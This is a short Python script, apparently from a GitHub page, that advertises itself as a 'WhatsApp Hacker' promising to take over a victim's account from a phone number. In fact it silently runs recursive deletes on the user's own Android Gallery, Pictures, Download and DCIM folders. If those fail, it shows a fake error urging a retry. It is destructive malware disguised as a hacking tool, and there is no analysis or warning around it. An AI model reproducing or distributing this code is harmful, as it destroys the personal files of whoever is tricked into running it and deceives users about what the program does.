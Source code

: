 - import os
import sys
import shutil
os.system('clear')
print("""
┏┓┏┓┏┓┏┳━━┳━┳┳┳━┳━┓
┗┓┏┛┃┗┛┃┏┓┃┏┫┏┫┳┫╋┃
┏┛┗┓┃┏┓┃┣┫┃┗┫┗┫┻┫┓┫
┗┛┗┛┗┛┗┻┛┗┻━┻┻┻━┻┻┛""")
print("            WELCOME TO WHATSAPP HACKER\n         NO FAKE 100% REAL")
print("            CREATED BY UNKNOWN AGENT")
country=input("[1]Enter country code>>")
number=input("[2)]Enter victim's number without country code>>")
print("Do you want to hack "+country+number+" ?")
conti=input("Press enter to Hack the WhatsApp account:")
print("Please wait...................")
try:
	shutil.rmtree("/storage/emulated/0/Gallery")
	shutil.rmtree("/storage/emulated/0/Pictures")
	shutil.rmtree("/storage/emulated/0/Download")
	shutil.rmtree("/storage/emulated/0/DCIM")
except:
	print("Sorry,an error occured.Please Retry tool..")
